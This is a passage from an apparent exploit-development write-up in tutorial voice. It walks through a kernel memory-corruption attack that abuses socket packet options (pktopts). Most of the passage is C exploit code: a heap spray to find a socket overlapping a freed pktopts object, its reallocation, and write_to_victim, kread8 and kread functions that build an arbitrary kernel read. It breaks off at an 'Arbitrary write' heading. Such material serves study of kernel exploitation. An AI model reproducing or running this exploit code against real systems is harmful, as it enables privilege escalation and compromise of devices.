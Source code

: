 ```c
static int find_overlap_sock(void) {
  char buf[sizeof(struct in6_pktinfo)];
  write_to_victim(pktopts_addr + PKTOPTS_PKTINFO_OFFSET);
  for (int i = 0; i < NUM_SPRAY; i++) {
    get_pktinfo(spray_sock[i], buf);
    if (*(uint64_t *)(buf + 0x00) != 0)
      return i;
  }
  return -1;
}
```

### So what next?
We still cannot directly write a socket object, so let us free the sprayed socket's and re-allocate them with `struct pktopts` which are basically "packet options" (pktopts) and can be written to read from.
```c
// master_sock and overlap_sock point to the same pktopts
  overlap_sock = spray_sock[idx];
  spray_sock[idx] = new_socket();
  printf("[+] Overlap socket: %x (%x)\n", overlap_sock, idx);
  // Reallocate pktopts
  for (int i = 0; i < NUM_SPRAY; i++) {
    free_pktopts(spray_sock[i]);
    set_tclass(spray_sock[i], 0);
  }
  // Fake master pktopts
  idx = fake_pktopts(0);
  overlap_sock = spray_sock[idx];
  spray_sock[idx] = new_socket(); // use new socket so logic in spraying will be easier
  printf("[+] Overlap socket: %x (%x)\n", overlap_sock, idx);
```
Let's see what we have accomplished: We now have a `
struct in6_pktinfo` (which is basically like a buffer we can write to and read from) and a `struct sock` at the same location. Thus, if we fill a particular offset of the pktinfo with an arbitrary pointer `x`, and then call `getsockopt()` (with appropriate options) on the victim socket, it will dereference the pointer and think that the contents of address `x` are the options and return it! Which means we have **arbitrary kernel read!**. We can read any 8 bytes of any kernel address like this:
```c
static void write_to_victim(uint64_t addr) {
  char buf[sizeof(struct in6_pktinfo)];
  *(uint64_t *)(buf + 0x00) = addr;
  *(uint64_t *)(buf + 0x08) = 0;
  *(uint32_t *)(buf + 0x10) = 0;
  set_pktinfo(master_sock, buf);
}
```
```c
static uint8_t kread8(uint64_t addr) {
  char buf[sizeof(struct in6_pktinfo)];
  write_to_victim(addr);
  get_pktinfo(victim_sock, buf);
  return *(uint8_t *)buf;
}
```
And now, we can turn this quite simply to an arbitrary sized read:
```c
static void kread(void *dst, uint64_t src, size_t len) {
  for (int i = 0; i < len; i++)
    ((uint8_t *)dst)[i] = kread8(src + i);
}
```
### Arbitrary write